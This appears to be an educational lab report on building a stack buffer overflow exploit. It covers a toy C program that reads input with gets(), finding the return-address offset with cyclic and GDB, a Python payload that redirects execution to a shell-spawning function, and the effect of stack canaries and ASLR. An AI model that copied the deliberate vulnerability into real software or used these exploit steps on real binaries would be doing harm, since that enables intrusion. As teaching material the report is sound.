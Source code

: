# Buffer Overflow Vulnerability Analysis

# Buffer Overflow Exploit Development

## 1. Introduction

This report describes the process of identifying a buffer overflow vulnerability in a simple C program and writing an exploit to gain control over the execution flow. The goal of the task was to demonstrate how buffer overflows can be used to overwrite the return address and invoke arbitrary functions, allowing unauthorized access to the system. The vulnerable program is analyzed and an exploit is written using the knowledge of stack memory layout and assembly-level analysis.

## 2. Vulnerable Program Analysis

### 2.1 Code Overview

The target program contains a buffer overflow vulnerability. The vulnerable function, `vulnerable()`, accepts user input using the unsafe `gets()` function, which does not check for buffer boundaries. This allows an attacker to overflow the buffer and overwrite the return address on the stack.

```c
#include <stdio.h>
#include <string.h>

void secret() {
    printf("Access granted! Exploit successful.\n");
    system("/bin/sh");
}

void vulnerable() {
    char buffer[64];
    printf("Enter your name: ");
    gets(buffer);  // vulnerable function
    printf("Hello, %s\n", buffer);
}

int main() {
    vulnerable();
    return 0;
}

## 3. Identifying the Vulnerability

### 3.1 Stack Behavior and Buffer Overflow

The program contains a buffer `char buffer[64]`, which is vulnerable to overflow because of the unsafe use of `gets()`. By providing more than 64 characters as input, we can overwrite adjacent memory regions, including the saved return address of the function `vulnerable()`.

### 3.2 Pattern Creation and Finding the Offset

To determine the exact location where the buffer overflow occurs (i.e., where the return address is stored), we use the `cyclic` command to generate a unique pattern:

```bash
cyclic 200
```

This command generates a 200-character pattern that is used as input for the program. Upon crashing the program with a segmentation fault, we can inspect the saved register values (specifically EIP) in GDB to locate the point where the return address was overwritten.

In GDB, the command `info registers` helps us identify the overwritten EIP:

```bash
info registers
```

By using the `cyclic -l` command in GDB, we can determine the exact offset to the return address:

```bash
cyclic -l 0x61616174
```
![img1](img/img1.jpg)
The output shows that the offset to overwrite the return address is 76 bytes.

## 4. Writing the Exploit

### 4.1 Exploit Script

To exploit the vulnerability, we write a Python script that generates a payload. The payload consists of 76 "A"s to fill the buffer and then the address of the `secret()` function, which we obtained from the `objdump` command:

```bash
objdump -d vuln | grep secret
```

The address of the `secret()` function is `0x080484b6`. Using this address, we construct the payload in the exploit script:

```python
import os

offset = 76  # determined empirically
secret_addr = 0x080484b6  # address of the secret function

payload = b"A" * offset
payload += secret_addr.to_bytes(4, 'little')  # EIP

with open("exploit_input", "wb") as f:
    f.write(payload)
```

The payload is written to the file `exploit_input`, which is then passed to the vulnerable program:

```bash
./vuln < exploit_input
```

### 4.2 Exploit Execution

When the program is executed with the crafted input, it successfully redirects the execution flow to the `secret()` function, which prints:

```
Access granted! Exploit successful.
```
![img2](img/img2.jpg)
A shell is then spawned, giving the attacker control over the system.

## 5. Protecting the Program and Additional Analysis

### 5.1 Stack Protector and ASLR

After successfully exploiting the buffer overflow, we test the program with additional protections enabled:

**Stack Protector:** The stack protector (canary) is enabled to prevent stack buffer overflows.

```bash
gcc -m32 -fstack-protector vuln.c -o vuln_protected
```
![img3](img/img3.jpg)
**ASLR:** Address Space Layout Randomization (ASLR) is enabled to randomize memory addresses.

```bash
sudo sysctl -w kernel.randomize_va_space=2
```
![img4](img/img4.jpg)
With these protections in place, the program behaves differently, and the exploit is blocked. The stack protector causes a crash due to the invalid stack state, and ASLR randomizes the address of the `secret()` function, making it difficult to predict the address.

### 5.2 IDA Pro Analysis

We use IDA Pro to analyze the vulnerable binary. By disassembling the binary, we examine the stack layout, specifically how the return address is stored and how it can be overwritten during a buffer overflow. The function `vulnerable()` is analyzed to understand the flow of execution and identify how the return address can be hijacked.

## 6. Conclusion

In this exercise, we successfully exploited a buffer overflow vulnerability to gain control over the program's execution flow. By understanding the stack layout and using techniques such as pattern creation, GDB analysis, and writing an exploit, we demonstrated how an attacker can overwrite the return address and execute arbitrary functions. The exercise also illustrated the importance of stack protection mechanisms, such as stack canaries and ASLR, in preventing such attacks.

In the future, it's crucial to use safe functions (like `fgets()`) and enable protections like stack canaries, ASLR, and DEP to prevent buffer overflow vulnerabilities.
